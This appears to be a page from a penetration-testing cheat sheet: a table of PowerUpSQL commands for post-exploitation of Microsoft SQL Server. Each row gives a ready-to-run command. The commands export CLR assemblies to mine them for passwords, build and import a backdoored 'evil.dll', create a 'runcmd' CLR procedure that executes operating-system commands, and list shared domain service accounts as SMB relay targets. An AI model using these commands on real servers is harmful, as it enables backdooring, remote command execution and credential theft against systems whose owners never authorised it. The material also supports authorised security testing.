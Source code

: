 ### Miscellaneous Post Exploitation Cheats

| Description | Command |
| :--- | :--- |
| Export all custom CLR assemblies to DLLs. They can be decompiled offline, and often contain passwords. Also, they can be backdoored without too much effort. | `$Results = Get-SQLStoredProcedureCLR -Verbose -Instance Server1\Instance1 -Username sa -Password 'P@ssword!' -ExportFolder c:\temp` `$Results | Out-GridView` |
| Create a SQL command that can be used to import an existing \(or backdoored\) CLR assembly. | `Create-SQLFileCLRDll -Verbose -SourceDllPath c:\temp\evil.dll` Blog: [https://blog.netspi.com/attacking-sql-server-clr-assemblies/](https://blog.netspi.com/attacking-sql-server-clr-assemblies/) |
| Create a DLL and SQL command that can be used to import a CLR assembly to execute OS commands. | `Create-SQLFileCLRDll -Verbose -ProcedureName runcmd -OutDir c:\temp -OutFile evil` |
| Get a list of Shared SQL Server service accounts | `Get-SQLInstanceDomain -Verbose | Select-Object DomainAccount, ComputerName -Unique | Group-Object DomainAccount | Sort-Object Count -Descending`  Note: Any count greater than 1 indicates a domain account used on multiple systems that could potentially be used for SMB Relay attacks.\` |

